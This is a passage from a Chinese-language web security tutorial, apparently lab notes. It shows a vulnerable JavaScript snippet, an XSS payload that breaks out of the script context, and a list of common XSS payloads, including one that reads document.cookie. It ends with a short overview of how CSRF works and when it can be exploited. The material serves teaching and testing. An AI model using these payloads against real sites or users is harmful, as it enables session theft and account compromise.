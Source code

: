 
**漏洞利用**

输入测试payload查看源代码如下：
```
<script>
    $ms='""<>#?'666';
    if($ms.length != 0){
        if($ms == 'tmac'){
            $('#fromjs').text('tmac确实厉害,看那小眼神..')
        }else {
//            alert($ms);
            $('#fromjs').text('无论如何不要放弃心中所爱..')
        }

    }


</script>

```

说明它是把我们输入的字符串放到JS中进行变量判断再输出。

我们可以根据这个JS代码构造对应的JS闭合语句，payload如下：

```js
'</script><script>alert(1111)</script>
```



### 常见payload大全
```js
<script>alert("xss")</script>
<script>alert(document.cookie)</script>
<a href=javascript:alert(111)>
<body onload=alert('XSS')>
<img src=x onerror=alert(1)>WS
<div onclick="alert('xss')">
```

## CSRF
**概述**
Cross-site request forgery 简称为"CSRF"，在CSRF的攻击场景中攻击者会伪造一个请求（这个请求一般是一个链接），然后欺骗目标用户进行点击，用户一旦点击了这个请求，整个攻击就完成了。所以CSRF攻击也成为"one click"攻击。 

CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限，而XSS是直接盗取到了用户的权限，然后实施破坏。

**利用条件**
```
1.目标站点没有对修改个人信息修改的请求进行防CSRF处理，导致该请求被伪造
> 判断对关键信息密码操作(增删改)是否容易被伪造
2.目标用户登录需要维持，若没有登录，CSRF链接便失效。
> 因此CSRF安全级别低一些。
```
